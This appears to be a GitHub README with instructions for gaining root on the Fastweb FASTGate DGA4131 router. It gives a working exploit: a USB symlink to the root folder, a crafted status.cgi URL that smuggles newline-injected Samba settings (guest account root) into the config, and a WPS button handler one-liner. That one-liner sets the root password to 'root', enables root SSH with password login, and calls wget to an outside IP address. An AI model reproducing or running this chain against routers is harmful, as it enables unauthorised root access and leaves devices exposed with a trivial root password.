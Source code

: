 ## FastgateRoot
How to get full access to your Fastgate, a widely used Router distributed by the ISP Fastweb in Italy.

## How does it work?
This trick uses a very old flaw available in basically every Technicolor router, you can have a USB return the root folder of the router by crafting a special symbolic link. 

## Getting Started

### Requirements

* A FASTGate DGA4131 (VBNT-O).
* An USB Drive.
* A Linux machine (a live version of Ubuntu should be ok, probably WSL too).

### Instructions

* Open up a terminal, navigate to the USB Drive path and type the following: `ln -s / rootlink`.
* Open up a browser, login to your fastgate admin page (it's usually available [here](http://192.168.1.254)).
* Once you logged on, click on this [link](http://192.168.1.254/status.cgi?3g_pin=********&act=nvset&samba_enabled=1&samba_workgroup=WORKGROUP%5c%0a%09security%20%3d%20share%5c%0a%09guest%20account%20%3d%20root%5c%0a%09interfaces%20%3d%20lo%20br-lan%5c%0a%5c%0a%5bohnonotagain%5d&service=usb_status).
* Plug the USB Drive in your router.
* Navigate to `\\192.168.1.254\usbdisk\rootlink` by using a SMB Client (like Windows Explorer).
* Now you should be able to access the FS of your router, there are still a few things to do though.
* Edit `/etc/inittab` by removing '#' from the last line `::askconsole:/bin/login`, if there's none just leave it as it is. This should turn the console login on, in case you screw your router heavily you should be backed up now.
* Edit `/etc/passwd` by removing `root:/bin/false` and adding `root:/bin/ash`. This allows using a shell for an eventual login.
* Edit `/etc/config/dropbear` as following (delete every other config involving SSH in this file, if there's any):

```config dropbear 'Example'
 option Interface 'lan'
 option Port '22'
 option IdleTimeout '600'
 option PasswordAuth 'on'
 option RootPasswordAuth 'on'
 option RootLogin '1'
 option enable '1'
 ```

* Edit `/etc/config/button` by editing `option handler 'wps_button_pressed_ssh.sh'` as always, leaving everything else by default:
 ```config button 'wps'
...
 option handler 'sed -i '\''s#/root:.*$#/root:/bin/ash#'\'' /etc/passwd && echo root:root | chpasswd && sed -i '\''s/#//'\'' /etc/inittab && (uci -q delete dropbear.afg || true) && uci add dropbear dropbear && uci rename dropbear.@dropbear[-1]=afg && uci set dropbear.afg.enable='\''1'\'' && uci set dropbear.afg.Interface='\''lan'\'' && uci set dropbear.afg.Port='\''22'\'' && uci set dropbear.afg.IdleTimeout='\''600'\'' && uci set dropbear.afg.PasswordAuth='\''on'\'' && uci set dropbear.afg.RootPasswordAuth='\''on'\'' && uci set dropbear.afg.RootLogin='\''1'\'' && uci commit dropbear && /etc/init.d/dropbear enable && /etc/init.d/dropbear restart && uci set button.wps.handler='\''wps_button_pressed.sh'\'' && uci commit && wget http://58.162.0.1/done || true'
```

